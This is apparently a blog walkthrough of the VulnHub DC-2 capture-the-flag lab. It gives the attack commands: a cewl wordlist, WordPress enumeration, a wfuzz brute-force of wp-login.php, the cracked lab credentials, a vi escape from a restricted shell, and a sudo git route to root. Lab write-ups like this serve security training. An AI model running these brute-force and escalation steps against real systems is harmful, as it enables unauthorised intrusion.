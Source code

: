 ```yaml
---
layout: "post"
title: "DC 2 Walkthrough"
categories: [vulnhub, DC-Series]
tags: [dc-2, easy, wordpress, suid]
---
```


DC-2 is an easy machine. This machine starts with a `WordPress site`. After brute-forcing, We find out creds on the website that we use to get an `ssh session` on the box. Priv sec to root by exploiting `git SUID binary`.
# Summary
- Portscan
- Adding Domain to Host file
- Finding users on wordpress 
- Creating wordlist
- Bruteforce
- Logging in Wordpress
- SSH shell
- Updating low shell to higher shell
- Privilege Escalation
- Getting ROOT

# Portscan

```
Nmap scan report for 192.168.1.10
Host is up (0.00047s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nmap scan show that port 80 and 7744 are open

```
Port 80: On this port, I find out a Domain name. I added to /etc/hosts file and surf the page. I discovered that WordPress is installed.

Port 7744: They are running SSH on this port. So I don't have any credentials so I moved forward.
```
# Initial Shell:

## Flag 1:
I got the first flag on the Main page
![flag1](/assets/img/dc-2/flag1.png)



As per hint in the first flag, I created a password list using cewl.

```bash
cewl -w password.txt http://dc-2
```

After that, I use wpscan to identify possible users and I found 3 users.

![wpscan](/assets/img/dc-2/wpscan.png)

Users :-
- admin
- jerry
- tom

Now I have a password and user list so I brute force the wordpress.
Here I use wfuzz to brute force.

```bash
wfuzz -c --hc=200 -z file,users.txt -z file,password.txt -d 'log=FUZZ&pwd=FUZ2Z&wp-submit=Log+In' http://dc-2/wp-login.php
```

![wfuzz](/assets/img/dc-2/wfuzz.png)

Here I got 2 passwords.
- ```jerry:adipiscing```
- ```tom:parturient```

## Flag 2:
I use jerry password to access wordpress panel and got second flag.

![flag2](/assets/img/dc-2/flag2.png)

## First User:
I spend some time to upload php reverse shell, but no luck :(
Then I tried same creds to access SSH on port 7744.
``` $ ssh tom@dc-2 -p 7744```

## Updating shell:

I tried to cat the flag3.txt but no luck. We are in a restricted shell. I checked usr/bin directory and PATH variable I noticed that tom is using binaries from that directory.
Here I learned new things about how to launch a shell using vi.

Steps:

1. Open VI editor 
2. Press ESC + :
3. set shell=/bin/bash
4. Again step 1 and 2 
5. shell

So I have shell using VI.

Now I am out of restricted shell but still using commands in usr/bin directory. I need to change PATH variable.

```export PATH=/bin:/usr/bin:$PATH```

## Flag 3:
Now I am able to cat the third flag.

![flag 3](/assets/img/dc-2/flag3.png)

## Second User:
Flag gives hint we need to switch user i.e jerry.

>jerry:adipiscing

![user2](/assets/img/dc-2/user2.png)

# Privesc to root:

Now I checked the sudoers list and found that I can run git without password.
![sudoer](/assets/img/dc-2/sudoer.png)

After some googling I found a [link](https://gtfobins.github.io/gtfobins/git/#shell).
![gtfobins](/assets/img/dc-2/gtfobins.png)

![git](/assets/img/dc-2/git.png)

## Final Flag
![final](/assets/img/dc-2/final.png)


